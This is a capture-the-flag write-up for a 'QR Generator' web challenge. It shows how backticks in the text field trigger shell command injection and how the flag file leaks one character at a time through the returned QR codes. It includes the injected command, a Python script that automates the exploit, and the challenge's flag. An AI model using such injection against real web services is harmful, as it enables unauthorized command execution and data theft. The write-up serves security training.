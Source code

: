 # QR Generator

## Description

> I was playing around with some stuff on my computer and found out that you can generate QR codes! I tried to make an online QR code generator, but it seems that's not working like it should be. Would you mind taking a look?
>
> http://challs.houseplant.riceteacatpanda.wtf:30004
> 
> Hint! For some reason, my website isn't too fond of backticks...

## Solution

When we go to the website, we see a simple input line. When we enter something in it, we get back a QR code.

![QR](../images/qr.png)

By reading the QR code, we remark that only the first letter is displayed in the QR code. 

Using the hint, we also see that by giving backticks, we can execute commands. For instance, ``` `echo "hello"` ``` gives back the QR code displaying `h`. If an error occurs, we get a QR code displaying `error`. 

Trying `cat flag.txt` does not produce an error and shows `r`, which is promising as the flag format is `rtcp{.*}`. We confirm that by leaking subsequent characters using:

```bash
cat flag.txt | head -c {} | tail -c 1
```

with `{}` a chosen number.

Finally, we automate the recovery with a script, which executes the GET requests, retrieves the QR codes and decrypts them.

```python
import requests
from PIL import Image
import zbarlight

for i in range(1,100):
    param = {'text': "`cat flag.txt | head -c {} | tail -c 1`".format(i)}
    r = requests.get("http://challs.houseplant.riceteacatpanda.wtf:30004/qr", params=param)

    with open("qrcode.jpg", "wb") as f:
        f.write(r.content)

    with open("qrcode.jpg", 'rb') as image_file:
        image = Image.open(image_file)
        image.load()

    codes = zbarlight.scan_codes(['qrcode'], image)[0]
    print(codes.decode()[0], end="")
```

Flag: `rtcp{fl4gz_1n_qr_c0d3s???_b1c3fea}`